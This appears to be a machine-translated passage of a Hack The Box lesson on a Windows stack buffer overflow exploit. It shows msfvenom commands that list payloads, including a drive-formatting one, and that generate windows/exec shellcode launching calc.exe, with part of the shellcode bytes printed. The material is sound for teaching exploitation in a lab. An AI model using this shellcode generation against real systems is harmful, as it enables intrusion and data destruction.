 Hasta ahora, en nuestro ejercicio para identificar y explotar una vulnerabilidad de desbordamiento del búfer basada en pila, hemos hecho lo siguiente:

1. Parámetros difusos
2. EIP controlado
3. Personajes malos identificados
4. Encontré una instrucción de devolución

El último paso es escribir un código de shell en la pila que se ejecuta cuando se ejecutan las direcciones de retorno que encontramos anteriormente, ya que buscamos direcciones de instrucciones que ejecutan el código escrito en la parte superior de la pila.
## Generación de código shell

Hemos discutido detalladamente la generación de shellcode en el módulo [Introducción al lenguaje ensamblador](https://academy.hackthebox.com/course/preview/intro-to-assembly-language) y los diversos métodos para hacerlo. En algunos casos, podemos encontrarnos limitados a un espacio de buffer muy corto, donde no tendríamos muchos bytes para escribir y podríamos tener que usar uno de los métodos discutidos para generar un código shell corto. Sin embargo, en nuestro caso estamos tratando con miles de bytes de buffer, por lo que no tendríamos que preocuparnos por tales limitaciones.

Entonces, para generar nuestro código shell, usaremos `msfvenom`, que puede generar códigos shell para sistemas Windows, mientras que herramientas como `pwntools`actualmente solo admiten códigos shell de Linux.

Primero, podemos enumerar todas las cargas útiles disponibles para `Windows 32-bit`, de la siguiente manera:

```shell-session
lilscott6x9@htb[/htb]$ msfvenom -l payloads | grep

...SNIP...
    windows/exec                                        Execute an arbitrary command
    windows/format_all_drives                           This payload formats all mounted disks in Windows (aka ShellcodeOfDeath). After formatting, this payload sets the volume label to the string specified in the VOLUMELABEL option. If the code is unable to access a drive for
    windows/loadlibrary                                 Load an arbitrary library path
    windows/messagebox                                  Spawns a dialog via MessageBox using a customizable title, text & icon
...SNIP...
```

Para la prueba inicial, intentemos `windows/exec`ejecutar `calc.exe`para abrir la calculadora de Windows si nuestro exploit tiene éxito. Para hacer esto, usaremos `CMD=calc.exe`, `-f 'python'`ya que estamos usando un exploit de Python, y `-b`para especificar cualquier carácter incorrecto:

```shell-session
lilscott6x9@htb[/htb]$ msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python' -b '\x00'

...SNIP...
buf =  b""
buf += b"\xd9\xec\xba\x3d\xcb\x9e\x28\xd9\x74\x24\xf4\x58\x29"
buf += b"\xc9\xb1\x31\x31\x50\x18\x03\x50\x18\x83\xc0\x39\x29"
buf += b"\x6b\xd4\xa9\x2f\x94\x25\x29\x50\x1c\xc0\x18\x50\x7a"
...SNIP...
```
